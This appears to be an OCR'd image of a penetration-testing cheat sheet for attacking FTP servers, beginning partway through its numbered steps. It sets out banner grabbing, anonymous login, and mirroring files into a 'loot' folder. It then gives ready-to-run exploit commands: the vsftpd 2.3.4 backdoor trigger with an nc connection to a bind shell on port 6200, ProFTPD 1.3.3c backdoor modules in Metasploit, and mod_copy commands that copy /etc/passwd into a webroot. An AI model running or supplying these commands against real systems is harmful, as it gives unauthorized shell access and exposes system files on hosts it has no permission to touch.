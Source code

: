 2) Quick banner grab
```
printf "QUIT\r\n" | nc -nv <IP> 21
```

3) Anonymous login test and basic listing
- Interactive:
```
ftp <IP>
# Name: anonymous
# Password: anonymous@
# Then: ls -la, pwd, cd, get/mget/mput, bye
```
- Non-interactive listing with curl:
```
curl -s --list-only ftp://anonymous:anonymous@<IP>/
```
- Recursive mirror with wget:
```
mkdir -p loot/ftp
wget -r -np -nH -P loot/ftp ftp://anonymous:anonymous@<IP>/
```

4) Test upload (if you have creds or anonymous write)
```
echo "test" > test.txt
# If anonymous write is allowed (rare), or replace user:pass with found creds:
curl -T test.txt ftp://anonymous:anonymous@<IP>/
```

5) vsftpd 2.3.4 backdoor (if service banner/version indicates vsftpd 2.3.4)
- Metasploit:
```
msfconsole -q
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS <IP>
run
```
- Manual (triggers a bind shell on port 6200):
```
# Trigger:
printf "USER user:)\r\nPASS pass\r\n" | nc -nv <IP> 21
# Connect to bind shell:
nc -nv <IP> 6200
# Then run: id; uname -a; whoami
```

6) ProFTPD 1.3.3c backdoor (if version shows 1.3.3c)
- Metasploit (recommended; reliable):
```
msfconsole -q
use exploit/unix/ftp/proftpd_133c_backdoor
set RHOSTS <IP>
run
```

7) ProFTPD mod_copy (often 1.3.5 era; SITE CPFR/CPTO)
- Check if SITE CPFR/CPTO available (may require login):
```
printf "USER anonymous\r\nPASS anonymous@\r\nSITE HELP\r\nQUIT\r\n" | nc -nv <IP> 21
```
- If mod_copy present, test arbitrary file copy (example: copy /etc/passwd into webroot):
```
# Adjust webroot path as needed (/var/www/html or /var/www):
printf "USER anonymous\r\nPASS anonymous@\r\nSITE CPFR /etc/passwd\r\nSITE CPTO /var/www/html/passwd.txt\r\nQUIT\r\n" | nc -nv <IP> 21
```
- If a web server runs on the host, browse:
```
curl -s http://<IP>/passwd.txt | head
```